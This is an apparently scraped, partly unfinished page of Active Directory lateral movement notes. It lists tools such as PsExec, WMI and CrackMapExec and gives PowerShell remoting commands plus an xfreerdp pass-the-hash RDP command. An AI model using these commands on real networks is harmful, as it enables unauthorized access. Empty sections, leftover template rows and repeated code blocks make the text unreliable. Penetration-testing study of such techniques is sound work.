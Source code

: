 

## Content

**[1. Active Directory Lateral Movement](#heading--1)**

  * [1.1. Understand Lateral Movement in Windows](#heading--1-1)
  * [1.2. What can we use to Move laterally?](#heading--1-2)

**[2. Move laterally](#heading--2)**

  * [2.1. Using PowerShell](#powershell-remoting)

      * [2.1.1. Not so basic text formatting](#heading--2-1-1)

  * [2.2. Windows Services](#heading--2-2)
  * [2.3. Abusing Remote Desktop Protocol - RDP](#heading--2-3)

----
https://ad.popdocs.net/LateralMovement/
# Active Directory Lateral Movement

| TTP         | Description |
| ----------- | ----------- |
| Header      | Title       |
| Paragraph   | Text        |

## Understand Lateral Movement in Windows


## What can we use to Move laterally?





- Windows Services
- WinRM
- PsExec
- RDP
- WMI
- DCOM
- Webclient
- CrackMapExec
- MSSQL


## Windows Services



## PowerShell Remoting
Enable PowerShell Remoting on current Machine (Needs Admin Access)

```powershell
Enable-PSRemoting
```

Entering or Starting a new PSSession (Needs Admin Access)

```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

## Abusing Remote Desktop Protocol - RDP

If we have a NTLM hash we can have an RDP session

### xFreeRDP

```bash
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
```


```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```





